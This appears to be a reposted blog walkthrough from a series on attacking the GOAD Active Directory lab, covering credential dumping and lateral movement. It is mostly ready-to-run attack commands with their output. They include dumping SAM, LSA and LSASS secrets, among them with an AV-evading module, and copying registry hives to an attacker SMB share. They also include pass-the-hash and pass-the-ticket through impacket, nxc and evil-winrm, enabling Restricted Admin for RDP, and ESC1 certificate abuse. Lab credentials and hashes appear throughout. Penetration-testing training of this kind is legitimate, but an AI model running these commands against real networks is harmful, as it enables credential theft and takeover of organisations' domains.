> [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part9/


In the previous post we tried some privilege escalation techniques. Today we will talk about lateral move. Lateral move append when you already pwned a computer and you move from this computer to another.

# Give me your secrets

- Before jumping from computer to computer we must get the secrets of the owned machine.
- Windows got a lot of different secrets stored in different place.
    
- Let’s launch impacket secretsdump.py and see what we got :

```
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```


# Security Account Manager (SAM) Database

- First secretdump retreive the SAM hashes :
```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)<br>Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::<br>Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br>DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br>WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::<br>vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
```


- Let’s talk about the sam database.
- The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer.
- The sam database is located at : C:\Windows\System32\config\SAM and is mounted on registry at HKLM/SAM
- To be able to decrypt the data you need the contains of the system file located at C:\Windows\System32\config\SYSTEM and is available on the registry at HKLM/SYSTEM.
- SecretDump get the contains of HKLM/SAM and HKLM/SYSTEM and decrypt the contains.
    
- We dumped the sam database with secretsdump but we can also do that with the following commands :
```
impacket-smbserver -smb2support share . # start a server to get the result
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SAM' -o '\\192.168.56.118\share'
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.118\share'
```

    
- Or directly on our windows shell:
    
    ```cmd
    reg save HKLM\SAM c:\sam
    reg save HKLM\SYSTEM c:\system
    ```
    

> With SAM and SYSTEM we get the contains of the LM and NT hashs stored in the sam database.

> The SAM database contains all the local accounts

- secretsdump got a command to decrypt the sam contains with the files we download :

```
impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL
```

- The result is in the following format:
```
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```


- In our result we have :

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
user: Administrator
RID : 500
LM hash : aad3b435b51404eeaad3b435b51404ee (this hash value means empty)
NT hash : dbd13e1c4e338284ac4e9874f7de6ef4 (this is the important result here)
```

- Wes have the NT hash of the administrator account, so we could try lateral move with it !

### Password reuse and PTH attack

- On a pentest when you compromised a first target on an active directory system you should always try if the local accounts are the same on all the servers.
- Almost all the time when clients are not mature in security they duplicate the same image to build all servers. By doing this, they also replicate the same administrator account and password.
- By doing so there is password reuse everywhere in the network (if you want to avoid that you should use laps)
- One of the best way to abuse the password reuse is by using a Pass The Hash (PTH) attack in all the network with CrackMapExec.
```
nxc smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
```



- Here we can see there is no password reuse between castelblack and others servers.
    
- But when a computer is promote to a domain controler the local administrator password is then used as the domain administrator password, so a test we could do is trying the password reuse between our administrator local account and the domain controler administrator account.
    
```
nxc smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```



- As we can see the local administrator password NT hash we extracted from castelblack’s sam database is the same as the north.sevenkingdoms.local administrator NT hash.
    
- Here the password reuse between castelblack and winterfell give us the domain administrator power on the north domain.
    

> LM/NT/NTLM/NetNTLMv1/NetNTLMv2 what’s the difference ?  
> There is a lot of confusion between the hash names and this could be very disturbing for people when they begin in the active directory exploitation.
> 
> - LM : old format turned off by default starting in Windows Vista/Server 2008
> - NT (a.k.a NTLM) : location SAM & NTDS : This one is use for pass the hash (i still often use the generic term ntlm to call this, sry)
> - NTLMv1 (a.k.a NetNTLMv1) : Used in challenge/response between client and server -> can be cracked or used to relay NTLM
> - NTLMv2 (a.k.a NetNTLMv2) : Same as NetNTLMv1 but improved and harder to crack -> can be cracked or used to relay NTLM

## LSA (Local Security Authority) secrets And Cached domain logon information

- When your computer is enrolled on a windows active directory you can logon with the domain credentials.
- But when the domain is unreachable you still can use your credentials even if the domain controller is unreachable.
- This is due to the cached domain logon information who keep the credentials to verify your identity.
- This is stored on C:\Windows\System32\config\SECURITY (available on HKLM\SECURITY)
- Just like for the sam database you will need the system file located at C:\Windows\System32\config\SYSTEM and is available on the registry at HKLM/SYSTEM.
```
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.118\share'
impacket-reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.118\share'
```

- And extract the contain offline
```
impacket-secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```


- This give us multiple interesting information :
    
- Cached domain credentials : example : `NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405

    - This give us a DCC2 (Domain Cached credentials 2 ) hash (hashcat mode 2100).
    - This hash can NOT be used for PTH and must be cracked.
    - That kind of hash is very strong and long to break, so unless the password is very weak it will take an eternity to crack.
- Machine account : example here : $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:22d57aa0196b9e885130414dc88d1a95
    - This contains the NT hash of the machine account, here it is 22d57aa0196b9e885130414dc88d1a95

> Remember a machine account is a valid account on the domain.  
> The machine account (here `castelblack$` ) + the hash NT we just retrieve can be use to query the ldap.

- Service account credentials : example here :
```
[*] _SC_MSSQL$SQLEXPRESS<br>(Unknown User):YouWillNotKerboroast1ngMeeeeee
```


- This is the sql_svc account register on castelBraavos computer.
    
- There is also the master DPAPI key and the password for autologon
    

### LSA secrets -> Lateral move

- In order to process to a lateral move with LSA secrets we could :
    - Crack DCC2 hashes to gain a domain account
    - Use the machine account to query the ldap, and find over ways to exploit with ACL (Just like the user account)
    - Use the service account stored credentials we just retrieve.
- A classic example could be to launch bloudhound.py with the computer account.

## LSASS (Local Security Authority Subsystem Service)

- Another important secret keeper in windows Active directory is the LSASS.exe process.
- By running tools like mimikatz it is possible to dump the contains of the LSASS process.
- A tool is particulary usefull in lateral move + lsass dump remotely : [lsassy](https://github.com/Hackndo/lsassy)
- This tool combine multiple techniques to dump lsass remotely on multiple computer.

> Dumping LSASS almost always ring a red alert on the anti-virus of the target computer.  
> You will need to use AV bypass techniques to be able to dump the lsass.exe process.

- We will use lsassy combined with the [dumpert](https://github.com/outflanknl/Dumpert) module (you will have to compile dumpert first to get the dll file).
install 
```
pipx install lsassy
```

```
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22 -m dumpertdll -O dumpertdll_path=/workspace/Outflank-Dumpert-DLL.dll
```


lassy without dumpert
```
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22
```



> The defender av is trigged with dumpert out of the box, but lsassy still get the time to retrieve the dump information.

- We then find out domain NTLM hash and TGT from the Lsass process
    
- Now imagine a privileged user launch a connection to castelblack
    
```
xfreerdp3 /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:castelblack.north.sevenkingdoms.local /cert:ignore
```


- We relaunch the dump and now we can see we have the catelyn.stark ntlm hash and kirbi file in the results

### LSASS dump -> domain users NTLM or aesKey -> lateral move (PTH and PTK)

- Before jumping into some lateral move techniques i recommend you to read the following articles about the usual techniques implemented in impacket :
    - [https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html](https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html)
    - [https://neil-fox.github.io/Impacket-usage-&-detection/](https://neil-fox.github.io/Impacket-usage-&-detection/)
- With impacket we could use :
    - PTH : -hashes
    - PTK : -key <aes128 or 256 key>

### Lateral Move with impacket

#### PsExec

- PsExec:
    - upload executable
    - create a service to run the executable
    - Communicate with the service with namedPipe.
    - Protocol : SMB
```
impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

```
impacket-psexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```



> PsExec is flagged out of the box by defender and can no longer be used with the RemCom service binary embedded with impacket without raising an alert and fail.

> Impacket give an option to change the service used by psexec with the -file option

- By creating a custom psexec service you can bypass the defender av and get a shell

#### WmiExec

WmiExec (pseudo-shell):

- Create new process thought wmi
- Create file to get the command result, read the file with smb and delete it
- Protocols : DCERPC + SMB
```
impacket-wmiexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```



#### SmbExec

SmbExec (pseudo-shell):

- Don’t upload executable
- Create a service on every request
- Get the command results on a share or on a server controlled by the attacker (with -mode SERVER)
- Protocol SMB
```
impacket-smbexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```



#### AtExec

AtExec (execute command):

- use a schedule task to run the command
- protocol SMB

```
impacket-atexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11 whoami
```


#### DcomExec

DecomExec (Distributed Component Object Model):

- pseudo shell (get the result in files retrieved with smb)
- protocol DCERPC + SMB
```
impacket-dcomexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```



### Lateral Move with CME
```
nxc smb 192.168.56.11 -H 'aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5' -d 'north' -u 'catelyn.stark' -x whoami
```



- By default nxc only check if smb admin$ is writable. If it is the case cme show “pwned”.
- For execution nxc use the -x option and by default use the wmiexec impacket method

### Using winrm

- Winrm
    - protocol HTTP or HTTPS
```
evil-winrm -i 192.168.56.11 -u catelyn.stark -H 'cba36eccfd9d949c73bc73715364aff5'
```


### Using RDP

- If you try to do PTH with RDP :
```
xfreerdp3 /u:catelyn.stark /d:north.sevenkingdoms.local /pth:cba36eccfd9d949c73bc73715364aff5 /v:192.168.56.11
```


- You will have the following error :

> To allow rdp connection without password you must Enable restricted admin

- Enable restricted admin:
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

- Let’s do this from linux, first let’s show the current value :
```
impacket-reg NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
```


- The value doesn’t exist we create it :
```
impacket-reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
```


- Now try again rdp connection and it works \o/


- Once finished delete the created registry key
```
impacket-reg NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
```


## TGT

### Over Pass the Hash (NT -> TGT -> authentication)

- Get a kerberos ticket from the nt hash
```
impacket-getTGT -hashes ':cba36eccfd9d949c73bc73715364aff5' north.sevenkingdoms.local/catelyn.stark
```

### Pass the ticket

- Now we got the TGT of catelyn we will use it
```
export KRB5CCNAME=./catelyn.stark.ccache
impacket-wmiexec -k -no-pass north.sevenkingdoms.local/catelyn.stark@winterfell
```


- You could also use the tickets dumped with lsassy using impacket ticketConverter:
```
ticketConverter kirbi_ticket.kirbi ccache_ticket.ccache
```

## Certificate

### Pass The Certificate (Cert -> NTLM or TGT)

- Back in our ESC1 case we request a certificate
```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
```


- With certipy we can request the ntlm hash of the user and the TGT too
```
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

## References

- [https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html](https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html)
- [https://neil-fox.github.io/Impacket-usage-&-detection/](https://neil-fox.github.io/Impacket-usage-&-detection/)
- [https://www.ired.team/offensive-security/lateral-movement](https://www.ired.team/offensive-security/lateral-movement)
- [https://www.thehacker.recipes/ad/movement](https://www.thehacker.recipes/ad/movement)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/)
- …

Next time we will have fun with kerberos delegation :)